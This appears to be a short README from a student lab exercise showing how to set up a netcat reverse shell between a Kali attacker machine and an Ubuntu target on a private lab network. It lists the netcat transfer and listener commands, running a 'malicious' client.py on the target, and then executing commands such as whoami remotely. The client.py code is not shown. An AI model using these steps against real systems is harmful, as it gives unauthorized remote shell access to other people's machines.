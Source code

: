 Note:
- You'll need to have netcat in kali linux machine
- Refer to Question1.pdf for a quick look on client.py and how to run
- Machine's IP (Kali, Ubuntu)
    - Kali IP: inet 10.0.2.15  netmask 255.255.255.0
    - Ubuntu IP: inet 10.0.2.5 netmask 255.255.255.0

Steps on running:
1. Transferring client.py from Kali to Ubuntu on port 5555:
    - Kali: nc -w 3 10.0.2.5 5555 < client.py
    - refer to screenshot 1
    - ubuntu: nc -l -p 5555 > client.py
    - refer to screenshot 2

2. Kali connecting port 5555 and running netcat:
    - nc -v -l -p 5555
    - refer to screenshot 3

3. Ubuntu will run the malicious file (client.py) from step 1:
    - python3 client.py
    - refer to screenshot 4

4. Once successfully connected, the system will alert hacker that have been connected to Ubuntu:
    - refer to screenshot 5

5. Attacker will then run executable commands such as whoami, ls and ifconfig:
    - refer tp screenshot 6
